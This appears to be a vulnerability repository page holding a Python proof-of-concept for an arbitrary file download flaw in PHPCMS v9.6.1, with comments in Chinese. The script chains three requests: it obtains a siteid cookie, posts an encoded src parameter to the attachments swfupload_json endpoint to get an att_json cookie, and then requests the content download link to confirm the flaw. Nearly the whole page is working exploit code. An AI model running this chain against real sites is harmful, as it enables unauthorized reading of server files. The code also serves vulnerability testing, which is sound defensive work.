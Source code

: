 

### Poc

```python
# coding: utf-8

"""
name: PHPCMS v9.6.1 任意文件下载
author: Anka9080
description: 过滤函数不严谨导致任意文件下载。
"""

import sys
import requests
from termcolor import cprint

def poc(target):
    print('第一次请求，获取cookie_siteid ')
    url = target +'index.php?m=wap&c=index&a=init&siteid=1'
    s = requests.Session()
    r = s.get(url)
    cookie_siteid =  r.headers['set-cookie']
    cookie_siteid = cookie_siteid[cookie_siteid.index('=')+1:]
    print(cookie_siteid)
    print('第二次请求，获取att_json')
    
    url = target + 'index.php?m=attachment&c=attachments&&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph%26f%3Dp%3%25252%2*70C'
    post_data = {
        'userid_flash':cookie_siteid
    }
    r = s.post(url,post_data)
    # print r.headers
    for cookie in s.cookies:
        if '_att_json' in cookie.name:
            cookie_att_json = cookie.value
    print(cookie_att_json)
    print('第三次请求，获取文件下载链接 ')
    url = target + 'index.php?m=content&c=down&a=init&a_k=' + cookie_att_json
    r = s.get(url)
    if 'm=content&c=down&a=download&a_k=' in r.text:
        cprint('[!] Vul : {}'.format(target),'red')
        return True
    else:
        return False
    
if __name__ == "__main__":
    poc('http://127.0.0.1/phpcms_v9.6.1/install_package/')
```

验证过程
